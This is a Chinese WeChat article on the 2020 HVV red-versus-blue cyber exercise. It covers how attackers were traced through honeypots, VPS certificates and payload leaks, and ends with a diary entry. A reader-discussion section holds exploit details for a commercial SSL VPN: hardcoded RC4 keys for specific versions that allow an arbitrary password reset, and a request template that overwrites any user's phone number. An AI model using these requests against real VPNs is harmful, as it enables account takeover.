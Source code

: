 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/y4uEQblEImjVdF8ZiXDh2A)

### **蓝军出击**

恰好最近电视剧热播《蓝军出击》，对应到 Hvv 行动，那么也抛出一个类似问题：“如果今天网络战争爆发, 这仗谁来防? 这仗谁来打? 谁能胜?”

红蓝对抗双方一般都是从 9 月 10 号投入现场战斗，经过长达 8 天的较量，策略、战术、利器、0day、手段的对抗，最终会沦为体力和心态的对抗。所以谁能保持良好的心态和可持续的体力投入，谁有大概率胜出。

### **平静与较量**

今年蓝队采取的 IP 情报共享封禁措施还是很有效果，这导致红队总体攻击迟缓、出货不明显，因此据悉红方得分规则发生变化，突破非目标系统但属于重要系统也可以获得最高分。  

蓝队溯源规则：完整还原攻击链条，溯源到黑客的虚拟身份、真实身份，溯源到攻击队员，反控攻击方主机根据程度阶梯给分，后面也进行了确认调整，必须红队攻击成功后的溯源反制才有效，否则初期会被驳回。

### **溯源与反制**

既然是对抗，我们甲方上层都那么重视，蓝队可不能都是厂商卖平台送的值守实习生等等，值守的都是大量扫描告警的产品，当类似 APT 检测产品上面全是海量普通的扫描攻击记录，产品名称是时候得再三斟酌了。

蓝队的老鸟也要进行研判分析及溯源反制: 流量分析，日志审计，溯源反制，背调研判，社工库查询，蜜罐诱捕 ，当然更重要的是安全圈子询问（圈子太小）。

![](https://mmbiz.qpic.cn/mmbiz_png/cib2MN4TF52JQUWOOicRgWiaITGXpULNqcpN4MrSsic3Nkkcy3ejHow7TFy5A4g7QX6ticM8yjdr3Ofgy5NhYG35kicw/640?wx_fmt=png)

截止目前攻击队因为安全意识问题被溯源的情况有大抵如下几种：  

1、使用个人工作 PC，且浏览器里面保存了 Baidu、163、Sina 等登陆凭据，攻击对抗过程中踩到蓝队蜜罐，被 JsonP 劫持漏洞捕获安全社交 id，从而被溯源到真实姓名和所在公司。

2、可能是蓝方封禁 IP 太厉害的原因，红队个人或团队，使用自己的网站 vps 进行扫描，vps 上含有团伙组织 HTTPS 证书、或 VPS IP 绑定的域名跟安全社交 id 对应，从而被溯源到真实姓名和所在公司。

3、部分攻击队写的扫描器 payload 里面含有攻击者信息，如使用了私有 DNSlog、攻击载荷里面含有安全社交 id、含有个人博客资源请求等。

4、投递的钓鱼邮件内木马样本被蓝队采集、逆向、反控 C2C、溯源到个人信息。

5、虚拟机逃逸打到实体机，暴露个人全部真实信息的。

### **推演和未来**

这场较量的真实意义就在于，贴近当今实战，面向未来网络战防御；不专业的红队这几天陆续被溯源反制，且也看到逐步整改，双方都应不断复盘和反思。

接下来几天相关未公开漏洞继续会被公开（或已公开漏洞被重视），红队会通过另类攻击手段达成积分获取。

策略、战术、利器、0day、情报、手段的对抗，最终还是体力和心态的对抗，谁能保持良好的心态和可持续的体力投入，谁有大概率胜出。

另外常态化地网络安全实战攻防演练，必将导致人才饥荒、人才培养机制改革以及安全服务运营模式的改革，高质量的安全人才非常重要，没质量的不应该太过浮躁。

渗了个透 发起了一个读者讨论 快来关注神秘的安全秘辛, 带你探索不一样的网络安全 精选讨论内容

1、某服 SSL VPN 任意密码重置

某 VPN 加密算法使用了默认的 key, 攻击者构利用 key 构造重置密码数据包从而修改任意用户的密码

利用: 需要登录账号

M7.6.6R1 版本 key 为 20181118

M7.6.1key 为 20100720

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7RnicWfk4JiaruBSA23WyxHxrEf1OQdZg73UckckRBnxoRrc67QxhhOnW7mQjN8u0FrACyOCiaJQmicCA/640?wx_fmt=png)

https://<PATH>/por/changepwd.csp

sessReq=clusterd&sessid=0&str=RC4\_STR&len=RC4\_STR\_LEN(脚本计算后结果)

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7RnicWfk4JiaruBSA23WyxHxrCNDSEZqtrX1YKHYK3slSIO8zIvjre8yCNdUwefsReibP79Vu5ibG1srg/640?wx_fmt=png)

2、某服 SSL VPN 修改任意账户手机号

修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码

利用: 需要登录账号

https://<PATH>/por/changetelnum.csp?apiversion=1

newtel=TARGET\_PHONE&sessReq=clusterd&username=TARGET\_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7RnicWfk4JiaruBSA23WyxHxr2rIeoUCx7Ro91scA68nhG8JXBXmbar9DZOdPGJBicJZID7SEc2l55GQ/640?wx_fmt=png)

0day 预警:

Yii2 框架反序列化 RCE CVE-2020-15148

Apache Superset 远程命令执行 CVE-2020-13948

2020 年 9 月 17 日 星期四 大雨

今天 8 点就匆匆到客户现场值班，整个上午只监测到来自阿三的僵尸网络流量，下午有传闻说 xx 多家单位出局了。晚上，零食和晚餐都没有了。我知道，客户的 hw 结束了，这是不幸还是幸运呢。

刚刚接到通知，公司又把我分配到另一个客户那里，希望明天有我的早餐吧。

![](https://mmbiz.qpic.cn/mmbiz_png/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vC2Ykcg7OALf4nQue9aLgK8Hgsqlo4gPaG7dViadosEIO637BMzAsia1jw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/gEVuGz7Ip7Q2ia7NeMEAKDJI38ldeK5vClsMt7tiaa2QuJNAia4ibmaevEr0GRe4nKyPIYLZsj2GzegtsMpmibL8ibnA/640?wx_fmt=gif)